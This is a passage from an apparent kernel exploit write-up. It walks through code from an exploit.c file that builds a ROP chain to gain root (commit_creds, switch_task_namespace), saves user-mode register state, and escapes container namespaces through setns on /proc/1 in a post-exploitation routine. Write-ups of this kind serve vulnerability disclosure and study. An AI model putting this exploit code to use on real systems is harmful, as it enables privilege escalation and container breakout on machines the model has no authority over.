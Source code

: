 ```c
gadget_start[idx++] = rflags;
gadget_start[idx++] = rsp;
gadget_start[idx++] = ss;

*(uintptr_t *)(buf_ptr + 0x200) = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
```
After the pivot gadget sequences are executed, the kernel stack is pivoted into `chunk_address` + 0x50.  
The ROP chain performs followings for privilege escalation and container escape.
- `commit_creds(prepare_kernel_creds(&init_task));`
	- Allocate new kernel-privileged cred and install it into the current process. This escalates the current task's privilege to root.
- `switch_task_namespace(find_task_by_vpid(1), &init_nsproxy)`
	- Switch the container root process’s nsproxy to init_nsproxy. This prepares the container escape.
- `swapgs_restore_regs_and_return_to_usermode`
	- Finish the ROP and resume the execution into usermode.

The above code is for crafting the ROP payload with kernel functions and gadgets set from [initialization step](#51-initialize-kernel-image-specific-values). Note that we modified the usermode `rsp` value to prevent segfault by unaligned `rsp` value when executing AVX instructions on the post-exploit step.

- [exploit/extra-refined/exploit.c#L271](../exploit/extra-refined/exploit.c#L271)
```c
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        "movq %%rsp, %3\n"
        : "=r"(cs), "=r"(ss), "=r"(rflags), "=r"(rsp)
        :
        : "memory");
}
```
`save_state` function stores the current usermode status such as `cs`, `ss`, `rflags`, `rsp`, and `ss`. These register values are used when the kernel ROP returns to usermode. 

After this step, the current exploit can acquire root privilege and escape the namespace container.

### 6.7 Post exploitation

In this step, the exploit succeeds and privileged escalation and container escape is ready. Finally, the exploit performs miscellaneous steps for a container-escaped root shell.

- [exploit/extra-refined/exploit.c#L702](../exploit/extra-refined/exploit.c#L702)
```c
void post_exploit(void)
{
    printf("[+] exploit success!!\n");
    // spin the parent
    if (fork())
    {
        for (;;)
            ;
    }
    // move to safe cpu
    // to prevent access to corrupted freelist
    set_cpu_affinity(1, 0);
    sleep(1);

    // escape pid/mount/network namespace
    setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
    setns(open("/proc/1/ns/pid", O_RDONLY), 0);
```